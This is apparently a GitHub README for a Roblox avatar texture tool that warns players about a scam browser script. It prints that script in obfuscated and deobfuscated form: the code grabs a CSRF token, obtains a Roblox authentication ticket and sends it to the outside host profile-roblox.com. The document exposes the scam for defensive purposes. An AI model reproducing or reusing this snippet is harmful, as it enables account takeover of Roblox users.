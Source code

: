 # Roblox Avatar Texture Scraper
Got a message or email from someone asking for your Roblox Avatar Texture, and asking you to run a JavaScript script in your browser? Instead of doing that (and giving away access to your account in the process*), use Roblox Avatar Texture Scraper (RATS) to get it instead.

## Example Usage

### Python:
**Make sure you have Python installed**
- Download the rats.py file
- Open Command Prompt (cmd.exe) or Power Shell in the folder where you installed the file
  - Alternatively use `cd C:\Downloads` where C:\Downloads is the folder with the file.
- Run the command `python rats.py`
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365)

### Standalone File:
- Download the rats.exe file [located here](https://github.com/SaxaphoneWalrus/Roblox-Avatar-Texture-Scraper/releases/)
- Run / Double click the file
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365)


## JavaScript Attack

The attack is simple, they ask you for your avatar texture and then give you an easy way of acquiring said texture. Simple, right? They're not asking for your password or anything, so where's the catch?

### Getting Your Avatar

The way they get your avatar is simple and legitimate enough, they simply query Roblox's own API using your public details.

```
async function payload2() {
    var hash = (await (await fetch((await (await fetch("https://www.roblox.com/avatar-thumbnail-3d/json?userId=" + $("meta[name='user-data']").data("userid") + "&_=" + Math.random())).json()).Url)).json()).textures[0]

    for (var i = 31, t = 0; t < 32; t++)
        i ^= hash[t].charCodeAt(0);

    location.href = "https://t" + (i % 8).toString() + ".rbxcdn.com/" + hash
}
```

A simplified breakdown:

- They fetch the JSON from `avatar-thumbnail-3d` [like this](https://www.roblox.com/avatar-thumbnail-3d/json?userId=2968170)
- They get the Textures hash from the URL in the JSON above
- They get which CDN the texture is hosted on from the hash
- They redirect your browser to the texture.

So.. where's the catch?


### *The Catch

```
(async function(){var _0x2416b1=(await(await fetch('/home',{'credentials':'include'}))['text']())['split']('setToken(\x27')[0x1]['split']('\x27)')[0x0];var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{'method':'POST','credentials':'include','headers':{'x-csrf-token':_0x2416b1}}))['headers']['get']('rbx-authentication-ticket');await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);await payload2()}());
```

This is at the bottom of the JavaScript file, all one line so it's harder to read.
Let's make it a bit more readable (using [MalwareDecoder](https://malwaredecoder.com/) because I am lazy.);

```
(async function(){
		var _0x2416b1=(await(await fetch('/home',{
		'credentials':'include'
	}
	))['text']())['split']('setToken('')[0x1]['split']('')')[0x0];
		var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{
			'method':'POST','credentials':'include','headers':{
			'x-csrf-token':_0x2416b1
		}
	}
	))['headers']['get']('rbx-authentication-ticket');
	await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);
	await payload2()
}
());
```

And now let's have the guy that doesn't exactly know what he's talking about break it down again!

- Get your Roblox X-CSRF token ([Cross-Site Request Forgery](https://blog.roblox.com/2020/10/protecting-users-cross-site-request-forgery/))
- Get your Roblox Authentication Ticket, using the X-CSRF token that they just acquired
- Send it to their own site
- Run the legitimate code, so you get your avatar texture.


## Why "RATS"?

My original python file I made for my own usage was called `avatr_texture.py`, and when I decided I wanted to put it out I decided to add Roblox to the name so people know what it's for, making it more likely to be seen by those who need it (Spoiler alert: Nobody will see it.)
And then I added 'Scraper' to the end because, well, I think "Rats" sounds better than "RAT" - and it also helps that the people who made the original JS script are rats.


## Me!

[I make YouTube videos.](https://youtube.com/saxaphonewalrus) They have nothing to do with this, I just thought I'd plug it in case anyone sees this.
